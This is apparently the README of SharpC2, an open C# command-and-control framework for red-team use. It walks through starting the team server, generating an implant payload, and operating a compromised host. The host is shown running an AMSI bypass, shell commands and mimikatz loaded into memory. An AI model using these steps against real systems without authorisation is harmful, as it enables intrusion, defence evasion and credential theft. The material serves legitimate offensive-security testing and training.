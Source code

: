 [![Build Status](https://travis-ci.com/SharpC2/SharpC2.svg?branch=main)](https://travis-ci.com/SharpC2/SharpC2)
[![Documentation Status](https://readthedocs.org/projects/sharpc2/badge/?version=latest)](https://sharpc2.readthedocs.io/en/latest/?badge=latest)

# SharpC2

SharpC2 is a Command and Control Framework written in C#.

The solution consists of an ASP.NET Core Team Server, a .NET Framework Implant, and a .NET Client.

## Quick Start

The quickest way to have a play with the framework is clone the repo, then build and run the Debug versions.

### Start the Team Server

```
C:\SharpC2\TeamServer> dotnet build
TeamServer -> C:\SharpC2\TeamServer\bin\Debug\net5.0\TeamServer.dll

C:\SharpC2\TeamServer\bin\Debug\net5.0> dotnet TeamServer.dll Passw0rd!
info: Microsoft.Hosting.Lifetime[0]
      Now listening on: https://0.0.0.0:8443
info: Microsoft.Hosting.Lifetime[0]
      Application started. Press Ctrl+C to shut down.
info: Microsoft.Hosting.Lifetime[0]
      Hosting environment: Production
info: Microsoft.Hosting.Lifetime[0]
      Content root path: C:\SharpC2\TeamServer\bin\Debug\net5.0
```

**Note**:  If the server starts in `Development` mode, it will only listen for connections on the `localhost`.  To ensure it runs in `Production` mode (and therefore listen for connections on all interfaces) set the `ASPNETCORE_ENVIRONMENT` variable to `Production`.

### Start the Client

```
C:\SharpC2\Client> dotnet build
Client -> C:\SharpC2\Client\bin\Debug\net5.0\SharpC2.dll

C:\SharpC2\Client\bin\Debug\net5.0>dotnet SharpC2.dll
  ___ _                   ___ ___
 / __| |_  __ _ _ _ _ __ / __|_  )
 \__ \ ' \/ _` | '_| '_ \ (__ / /
 |___/_||_\__,_|_| | .__/\___/___|
                   |_|
    @_RastaMouse
    @_xpn_

(server)>
```

### Connect to the Team Server

```
(server)> localhost
(port)> 8443
(nick)> rasta
(pass)>

Server Certificate
------------------

[Subject]
  CN=localhost

[Issuer]
  CN=localhost

[Serial Number]
  67B4A5487F67745B

[Not Before]
  25/02/2021 21:01:43

[Not After]
  25/02/2022 21:01:43

[Thumbprint]
  B968C8D9C2B40F4AD7A46C92B0B700DEE46492FE

(accept? [y/N])> y
[drones] #
```

The client also supports command line arguments for faster setup.

```
C:\SharpC2\Client\bin\Debug\net5.0>dotnet SharpC2.dll --server localhost --port 8443 --nick rasta --password Passw0rd!
```

### Configure and Start the Default HTTP Handler

```
[drones] # handlers

[handlers] # list

Name          Running
----          -------
default-http  False

[handlers] # config default-http

[default-http] # show

Name            Value      Optional
----            -----      --------
BindPort        80         False
ConnectAddress  localhost  False
ConnectPort     80         False

[default-http] # set BindPort 8080
[default-http] # set ConnectPort 8080
[default-http] # show

Name            Value      Optional
----            -----      --------
BindPort        8080       False
ConnectAddress  localhost  False
ConnectPort     8080       False

[default-http] # start
[+] Handler "default-http" started.

[default-http] # back

[handlers] # list

Name          Running
----          -------
default-http  True
```

### Generate a Payload for the Handler

```
[drones] # payloads

[payloads] # show

Handler  Format  DllExport
-------  ------  ---------
         Exe     Execute

[payloads] # set Handler default-http

[payloads] # help generate

Generate payload
Usage: generate </output/path>

[payloads] # generate C:\Temp\drone.exe
[+] Saved 74240 bytes.
```

Execute the payload.

```
C:\Temp> drone.exe
```

### Interacting with a Drone

```
[drones] # list

Guid        Address      Hostname      Username  Process  PID    Arch  LastSeen
----        -------      --------      --------  -------  ---    ----  --------
655a3dea9d  172.20.64.1  Ghost-Canyon  Daniel    drone    32748  x64   0.29s

[drones] # interact 655a3dea9d

[655a3dea9d] # help

Name              Description
----              -----------
back              Back to previous screen
bypass-amsi       Bypass AMSI for post-ex tasks
cd                Change working directory
execute-assembly  Execute a .NET assembly in memory
exit              Exit this Drone
help              Get help
ls                List files and directories
overload          Map a native DLL into memory
pwd               Print current working directory
run               Run a command
shell             Run a command via cmd.exe
sleep             Set sleep interval and jitter

[655a3dea9d] # help overload
Map a native DLL into memory
Usage: overload [/path/to/dll] [export] <args>

[655a3dea9d] # overload C:\Tools\mimikatz\x64\powerkatz.dll powershell_reflective_mimikatz coffee
[+] Drone tasked: 668a2b4acb
[+] Drone checked in. Sent 1878149 bytes.
[+] Output received:

  .#####.   mimikatz 2.2.0 (x64) #19041 Mar  3 2021 14:35:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(powershell) # coffee

    ( (
     ) )
  .______.
  |      |]
  \      /
   `----'

[+] Task complete.
```


## Documentation

See more documentation on [Read the Docs](https://sharpc2.readthedocs.io/en/latest/index.html).